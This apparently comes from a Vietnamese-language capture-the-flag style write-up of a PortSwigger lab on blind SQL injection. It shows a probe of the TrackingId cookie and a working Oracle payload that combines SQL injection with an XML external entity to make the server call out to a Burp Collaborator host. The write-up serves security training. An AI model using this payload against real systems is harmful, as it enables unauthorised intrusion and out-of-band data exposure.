



# Write-up: Blind SQL injection with out-of-band interaction

### Tổng quan
Ghi lại quá trình khai thác Blind SQLi dựa trên kĩ thuật Out-Of-Band 
để gửi DNS lookup tới Burp Collaborator

### Mục tiêu
Thực hiện DNS lookup tới Burp Collaborator

### Công cụ hỗ trợ
- BurpSuite pro
- Firefox Browser

### Các bước thực hiện

1. **Thu thập thông tin (Recon)**
- Kiểm tra tham số `TrackingId` trong header `Cookie` trong HTTP request được chặn trong BurpSuite
    ```
    TrackingId=kizdDsfJXTVvCYsJ'
    ```
    - **Kết quả**: Response không thay đổi hay hiển thị lỗi, xác nhận đây là Blind SQL Injection.
        

2. **Tạo payload**
- Mở Burp Collaborator client trong Burp Suite, sao chép subdomain `ra5k07yd7pn8efthok7l0btix930rqff.oastify.com`

- Tạo payload kết hợp SQLi và XXE (XML External Entity) để kích hoạt DNS lookup
```
'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://ra5k07yd7pn8efthok7l0btix930rqff.oastify.com/"> %remote;]>'),'/l') FROM dual)--
```
- **Kết quả**: DNS được gửi thành công, hoàn thành Lab
    
    

### Bài học rút ra
- Thành thạo khai thác blind SQL injection bằng kĩ thuật Out-Of-Band.
- Nhận thức tầm quan trọng của kiểm tra đầu vào để ngăn chặn SQL injection.

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet
- PortSwigger: Blind SQL Injection

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng khai thác Blind SQL injection. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.